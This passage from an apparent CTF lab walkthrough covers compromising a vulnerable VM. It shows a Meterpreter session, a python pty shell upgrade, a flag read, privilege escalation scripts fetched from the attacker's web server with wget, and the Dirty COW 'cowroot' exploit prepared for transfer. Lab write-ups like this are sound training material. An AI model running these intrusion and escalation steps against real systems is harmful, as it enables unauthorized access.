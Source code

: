 ```text
root@kali$ msf5 >

msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.8.132:4448
[*] Sending stage (38288 bytes) to 192.168.8.132
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.8.132:4448) at 2020-05-12 00:43:47 -0400
```

![](https://i1.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-12-at-12.45.13-AM-1024x554.png?resize=768%2C416&ssl=1)

I spent some time running through meterpreter enumeration scripts to gather more details on the target. Once I gathered enough information, I dropped into a shell to run some linux privilege escalations scripts. Using the shell command, I dropped into a low interactive shell. To upgrade, I ran the following exports and used a simple python script to open up a bash shell.

```text
root@kali$ meterpreter > shell
Process 2181 created.
Channel 1 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/root@kali$
```

With a better shell, I did some manual navigating on the target and came across a flag in the vulnuni/home directory.

```text
www-data@vulnuni$ ls
ls
Desktop    Downloads  Pictures  Templates  examples.desktop
Documents  Music      Public    Videos     flag.txt
www-data@vulnuni:/home/vulnuniwww-data@vulnuni$ cat flag.txt
cat flag.txt
68fc668278d9b0d6c3b9dc100bee181e
```

Next, I opened up a webserver on my Kali linux machine to easily transfer some privilege escalation scripts to the target. I copied these scripts from my [redteam-apache-toolkit](https://github.com/tcbutler320/redteam-apache-toolkit) project to my webserver at /var/www/html . I used wget on the target to transfer the scripts into the /tmp folder. One of the privilege escalation/ enumeration scripts I ran was [BeRoot](https://github.com/AlessandroZ/BeRoot). The output showed that this target was vulnerable to the dirty cow linux kernel privilege escalation exploit.

![](https://i0.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-12-at-10.07.52-AM-1024x789.png?resize=768%2C592&ssl=1)

There are several dirty cow exploits available, each one uses a slightly different method of triggering the exploit. The GitHub [wiki pages](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) includes a list of POC’s. I tried a few of these however running the exploit caused the target VM to crash, a common [problem](https://github.com/dirtycow/dirtycow.github.io/issues/25#issuecomment-255852675) experienced when using dirty cow. The best option I found was to use the SUID-based root exploit [cowroot](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679). I copied the POC to my machine, compiled it with gcc, and then transferred it to the target with wget.
